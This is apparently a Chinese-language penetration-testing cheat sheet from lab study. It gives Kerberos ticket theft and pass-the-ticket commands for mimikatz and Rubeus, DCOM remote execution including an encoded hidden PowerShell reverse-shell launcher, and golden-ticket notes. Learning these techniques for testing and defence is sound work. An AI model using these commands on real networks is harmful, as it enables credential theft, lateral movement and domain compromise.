 > mimikatz.exe可以把memory中所有的TGT\TGS匯出，然後匯入klist，就可以用了。
### mimikatz.exe產出TGT\TGS
- 匯出TGT\TGS (匯出會放在同意個資料夾內)
```
sekurlsa::tickets /export
```
- 匯入klist
```
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```
### Rubeus 的相關指令
- 匯出TGT\TGS 
```
Rubeus.exe dump /nowrap
```
- 匯入klist
```
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```
- 製作並匯入klist
```
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```
>在成功匯入TGT之後，直接輸入`powershell`可以做到PowerShell Remoting
## DCOM
- 建立dcom物件
``` powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
```
- 建立於遠端的process
``` powershell
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
```
- 建立於遠端的process(reverse)
``` powershell
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD==","7")
```
## Golden Ticket
>[!NOTE]
>完全偽造 TGT，只要拿到 **krbtgt 帳號的 NTLM hash 或 Kerberos key**，就能憑空生成任意使用者的 TGT。

>[!WARNING]
>當使用者送出一個TGT的request，KDC會使用krbtgt的password hash來幫TGT加密，所以如果知道krbtgt的password hash，那就可以自己製作golden tickets。

>[!WARNING]
>- 拿下一個domain admin帳戶
>- compromised the domain controller itself
